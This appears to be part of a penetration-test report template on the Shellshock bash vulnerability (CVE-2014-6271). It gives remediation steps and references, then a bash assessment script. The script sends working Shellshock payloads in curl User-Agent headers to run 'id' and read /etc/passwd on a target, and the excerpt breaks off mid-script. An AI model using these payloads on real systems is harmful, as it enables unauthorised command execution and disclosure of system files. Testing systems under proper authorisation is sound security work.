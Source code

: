 ### Immediate Actions (Priority 1)
1. **Patch Bash immediately** to version 4.3.30 or later
2. **Disable unnecessary CGI functionality** 
3. **Implement Web Application Firewall** with Shellshock signatures

### Long-term Security Measures (Priority 2)  
1. Regular vulnerability assessments
2. Security code review for all CGI scripts
3. Network segmentation for web servers
4. Monitoring for exploitation attempts

## Proof of Concept
[Include screenshots and detailed step-by-step reproduction steps]

## References
- CVE-2014-6271: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
- NIST NVD: https://nvd.nist.gov/vuln/detail/CVE-2014-6271
- GNU Bash Security Advisory: https://www.gnu.org/software/bash/
```

### 🤖 **Automated Evidence Collection Script:**

```bash
#!/bin/bash
# Shellshock Assessment and Evidence Collection Script
# Usage: ./shellshock_assess.sh <target_ip> <cgi_script_path>

TARGET=$1
CGI_PATH=$2
TIMESTAMP=$(date +"%Y%m%d_%H%M%S")
REPORT_DIR="shellshock_assessment_$TIMESTAMP"

# Create evidence directory
mkdir -p "$REPORT_DIR"

echo "🔥 Shellshock Assessment Started - $TARGET" | tee "$REPORT_DIR/assessment.log"
echo "Target: $TARGET" | tee -a "$REPORT_DIR/assessment.log"
echo "CGI Path: $CGI_PATH" | tee -a "$REPORT_DIR/assessment.log"
echo "Timestamp: $(date)" | tee -a "$REPORT_DIR/assessment.log"
echo "=====================================" | tee -a "$REPORT_DIR/assessment.log"

# Phase 1: Vulnerability Detection
echo "Phase 1: Vulnerability Detection" | tee -a "$REPORT_DIR/assessment.log"
nmap --script http-shellshock --script-args "http-shellshock.uri=$CGI_PATH" $TARGET | tee "$REPORT_DIR/nmap_shellshock.txt"

# Phase 2: Manual Exploitation Testing
echo "Phase 2: Manual Exploitation Testing" | tee -a "$REPORT_DIR/assessment.log"

# Test 1: Identity check
echo "Testing payload: id command" | tee -a "$REPORT_DIR/assessment.log"
curl -s -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://$TARGET$CGI_PATH > "$REPORT_DIR/exploit_id.txt"

# Test 2: Password file enumeration  
echo "Testing payload: /etc/passwd" | tee -a "$REPORT_DIR/assessment.log"
curl -s -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET$CGI_PATH > "$REPORT_DIR/exploit_passwd.txt"

# Test 3: Process enumeration
echo "Testing payload: process list" | tee -a "$REPORT_DIR/assessment.log"  
```
